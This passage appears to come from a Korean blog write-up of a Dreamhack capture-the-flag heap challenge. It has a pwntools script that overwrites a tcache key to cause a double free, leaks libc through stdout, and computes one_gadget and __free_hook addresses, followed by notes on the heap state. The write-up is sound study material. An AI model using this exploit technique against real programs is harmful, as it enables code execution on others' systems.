 ```python
    p.sendlineafter("Edit\n", "3")

def edit(content):
    p.sendlineafter("Edit\n", "4")
    p.sendafter(": ", content)

allocate(0x30, "dreamhack")
free()

edit("A"*0x8 + "B") # overwrite tcache_entry->key
free() #

addr_stdout = e.symbols["stdout"]
allocate(0x30, p64(addr_stdout))

allocate(0x30, "BBBBBBBB")
allocate(0x30, "\x60")

print_chunk()

p.recvuntil("Content: ")
stdout = u64(p.recvn(6).ljust(8, b"\x00"))
lb = stdout - libc.symbols["_IO_2_1_stdout_"]
#local
og = lb + 0x4f302
#remote
#og = lb + 0x4f432
free_hook = lb + libc.symbols["__free_hook"]
```

- `edit("A"*8 + "\x00")` → chunk의 `key`**를 변경하여** 해당 chunk가 다시 한 번 free될 수 있도록 한다. → **DFB**가 일어날 수 있다.
- 첫 번째 `free()` 이후 heap의 상태
    
    <p align="center">
		<a href="/assets/images/TIL220820/Untitled (3).png">
			<img src="/assets/images/TIL220820/Untitled (3).png" width="800">
  	 	</a>
	</p>
    
    `key`가 0x1ec7010임을 확인할 수 있다.
    
- `edit("A"*8 + "B")` 이후 heap의 상태
    
    <p align="center">
		<a href="/assets/images/TIL220820/Untitled (4).png">
			<img src="/assets/images/TIL220820/Untitled (4).png" width="800">
  	 	</a>
	</p>
    